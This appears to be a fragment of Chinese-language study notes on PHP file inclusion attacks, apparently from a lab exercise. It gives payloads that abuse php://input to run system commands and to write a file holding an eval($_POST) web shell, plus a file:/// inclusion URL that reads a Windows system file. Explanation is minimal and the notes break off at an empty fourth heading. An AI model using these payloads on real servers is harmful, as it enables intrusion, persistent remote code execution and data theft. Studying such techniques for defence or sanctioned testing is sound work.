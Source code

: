### 1、文件包含基础
![[Pasted image 20231221150356.png]]
### 2、php://input协议
```
url?page=php://input
post参数:
<?php system(whomi);?>
or
<?php fputs(fopen('aacc.php','w'),'<?php @eval($_POST[11]);?>')?>
```
![[Pasted image 20231221152617.png]]

![[Pasted image 20231221150922.png]]

### 3、file:///协议
```
http://100.100.100.29/baohan/inde.php?page=file:///c:/windows/win.ini
```
### 4、